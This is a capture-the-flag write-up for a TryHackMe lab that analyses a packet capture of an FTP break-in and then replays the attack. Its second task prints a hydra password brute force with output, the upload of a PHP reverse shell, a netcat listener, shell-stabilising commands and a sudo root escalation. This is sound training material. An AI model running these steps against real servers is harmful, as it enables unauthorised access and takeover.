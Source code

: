 #write-up
#done


![[Pasted image 20240202174634.png]]

This is a write-up for the H4cked room on tryhackme, this consists of analyzing a .pcap file to find-out the details of a hack against a server.
we will be using wireshark for the Analysis 
`wireshark Capture.pcapng `
![[Pasted image 20240202175239.png]]



## Task 1  -- Oh no! We've been hacked!
- The attacker is trying to log into a specific service. What service is this?
Answer --> `FTP`
The first request in the pcap file is a login request to port 21(FTP). Following the tcp-stream, we saw that the attacker tried to login-to the user 'Jenny' but failed
![[Pasted image 20240202175716.png]]
note : to follow tcp stream, right click on the traffic then select tcp-stream under the follow option
![[Pasted image 20240202175655.png]]




- There is a very popular tool by Van Hauser which can be used to brute force a series of services. What is the name of this tool?
ANSWER --> hydra 
Let's check the traffics for any brute-force attempts
![[Pasted image 20240202180801.png]]

here we found a brute-force attempt against The ftp service. now lets make a quick google search for tools used to brute-force ftp

![[Pasted image 20240202180925.png]]

We found a tool called hydra 

Answer --> `HYDRA`


- The attacker is trying to log on with a specific username. What is the username?

Analyzing the failed login traffic, we found a specific username the attacker was trying to log on.
![[Screenshot 2024-02-02 at 18.28.42.png]]

ANSWER --> JENNY


- What is the user's password?
To get the user's password, we need to check the successful login tcp stream, this can be done by searching for ftp Successful login.
`ftp.response.code == 230 `
 ![[Pasted image 20240202183627.png]]

now let's follow the  tcp stream for the first traffic to see the login credentials 

![[Pasted image 20240202183732.png]]

 ANSWER --> password123 

- What is the current FTP working directory after the attacker logged in?

We can get the full detail of the FTP connection session by following the connection stream. Now lets try following the tcp stream.
`ftp.response.code == 230`
Then select the second traffic 
![[Screenshot 2024-02-02 at 18.43.07.png]]
now follow the tcp stream of the traffic 
![[Pasted image 20240202184347.png]]

the current Directory is specified on line 9

ANSWER --> /var/www/html


- The attacker uploaded a backdoor. What is the backdoor's filename?
in the tcp-stream we can see the attacker uploaded a file name store.php
![[Screenshot 2024-02-02 at 18.49.03.png]]

ANSWER -->  shell.php 

 - The backdoor can be downloaded from a specific URL, as it is located inside the uploaded file. What is the full URL?

Given in the hint section, using the `ftp-data` filter and then following the stream, we can view the content of the uploaded shell 
![[Screenshot 2024-02-02 at 20.05.16.png]]

answer --> http://pentestmonkey.net/tools/php-reverse-shell






-  Which command did the attacker manually execute after getting a reverse shell?
since we have the attacker's payload, lets check the port specified in it 
![[Screenshot 2024-02-02 at 20.09.27.png]]
port 80 , now lets search for all the requests to the specifies ip address and the port
`ip.dest == 192.168.0.147 && tcp.port == 80`
now follow the tcp-stream of the PSH and ACK
![[Pasted image 20240202201847.png]]

Following the tcp-stream we see all the activities of the attacker including all the command being executed 
![[Screenshot 2024-02-02 at 19.04.32.png]]

ANSWER --> whoami


 - What is the computer's hostname? 
Answer --> wir3



- Which command did the attacker execute to spawn a new TTY shell?
![[Screenshot 2024-02-02 at 19.09.21.png]]

--> python3 -c 'import pty; pty.spawn("/bin/bash")'


- Which command was executed to gain a root shell?
Here to get the root shell, the attacker logged into jenny's account using the ftp credentials. then the attacker checked for all jenny's sudo privileges where the attacker discovered that jenny had the privilege to access the root account without a password.

![[Screenshot 2024-02-02 at 19.10.45.png]]
 
 ANSWER --> `sudo su`

- The attacker downloaded something from GitHub. What is the name of the GitHub project?

![[Screenshot 2024-02-02 at 19.18.26.png]]

Answer -- REPTILE 


-  The project can be used to install a stealthy backdoor on the system. It can be very hard to detect. What is this type of backdoor called?

from the Github repo about section, it specifies that the backdoor is a rootkit
![[Screenshot 2024-02-02 at 19.22.23.png]]




## TASK 2 -- Hack your way back into the machine

The attacker has changed the user's password! Can you replicate the attacker's steps and read the flag.txt? The flag is located in the /root/Reptile directory. Remember, you can always look back at the .pcap file if necessary. Good luck!


Lets start by scanning the target using nmap 

`nmap 10.10.125.249`
![[Pasted image 20240202203249.png]]

Now lets brute-force the FTP service using the /usr/share/wordlists/rockyou.txt wordlist.
```bash
┌──(wraith㉿kali)-[~/thm/h4cked]
└─$ hydra -l jenny -P /usr/share/wordlists/rockyou.txt ftp://10.10.125.249
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-02-02 13:34:44
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.125.249:21/
[21][ftp] host: 10.10.125.249   login: jenny   password: 987654321
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-02-02 13:35:12

```

USER : jenny 
PASS: 987654321

FTP SERVER ACCESS 
![[Pasted image 20240202204024.png]]

Now lets upload our reverse shell payload.
there is a pre-built pentest-monkey revshell payload in kali-linux located in `/usr/share/webshells/php/php-reverse-shell.php`. 
lets copy the payload to our current directory and then fill in our credentials (ip-address, port)
![[Screenshot 2024-02-02 at 20.45.06.png]]

now lets save this file and upload it to the ftp server.


```
ftp> put shell.php 
local: shell.php remote: shell.php
229 Entering Extended Passive Mode (|||45246|)
150 Ok to send data.
100% |******************************************|  5493       17.87 MiB/s    00:00 ETA
ftp> chmod +x shell.php
200 SITE CHMOD command ok.
ftp> 

```

Now that we've uploaded our payload and assigned it the proper permissions, lets run it and get a reverse shell. 
creating Listener :
`nc -nlvp 2020`
triggering payload
http://ip/shell.php 

BOOM!! We have our shell 
![[Pasted image 20240203055830.png]]
lets stabilize our shell and log on to Jenny's account .
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
ctrl + z
stty raw -echo; fg
export TERM=xterm
```

Jenny's Account 
```
www-data@wir3:/$ su jenny
su jenny
Password: 987654321

jenny@wir3:/$ 
```


PRIVILEGE ESCALATION

```
jenny@wir3:/$ sudo -l
sudo -l
[sudo] password for jenny: 987654321

Matching Defaults entries for jenny on wir3:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jenny may run the following commands on wir3:
    (ALL : ALL) ALL
jenny@wir3:/$ 

```

Since jenny's account has the privilege to run all commands on the system, lets log on directly to the root user.
```
jenny@wir3:/$ sudo su
sudo su
root@wir3:/# whoami
whoami
root
root@wir3:/# 

```

From here we can get our flag and submit it 




THANK YOU 🙏
